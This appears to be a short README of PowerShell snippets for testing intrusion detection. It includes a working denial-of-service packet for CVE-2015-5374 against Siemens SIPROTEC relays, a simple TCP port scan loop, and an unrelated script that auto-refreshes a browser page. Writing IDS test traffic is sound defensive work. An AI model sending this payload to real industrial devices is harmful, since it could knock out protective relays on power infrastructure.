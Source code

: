 ## To test Intrusion Detection/Prevention functionality

**CVE-2015-5374 Siemens SIPROTEC Denial-of-Service Vulnerability**
```powershell
[System.Byte[]] $ByteArray=0x11,0x49,0x00,0x00,0x00,0x00,0x00,0x00, 0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x28,0x9e
$UdpClient = New-Object System.Net.Sockets.UdpClient
$UdpClient.Connect("192.168.127.56", 50000)
$UdpClient.Send($ByteArray, $ByteArray.length) | out-null
```

**TCP Port SYN Scan**
```powershell
foreach ($p in 1..20) { 
New-Object System.Net.Sockets.TCPClient('192.168.127.56',$p) 
}
```

## To refresh web console page automatically to avoid timeout (Microsoft Edge) 
```powershell
function Page-Refresh {
    While ($true) {
        Start-Sleep -seconds 5
        $edge = Get-Process | Where-Object {$_.MainWindowTitle -like "*edge*"}
        $wshell = New-Object -com WScript.Shell
        $wshell.AppActivate($edge.id)
        $wshell.sendkeys("{F5}")
    }
}

Page-Refresh | Out-Null
```

```bat
powershell -nologo -executionpolicy remotesigned -noexit -noprofile -File "page-refresh.ps1" 
```
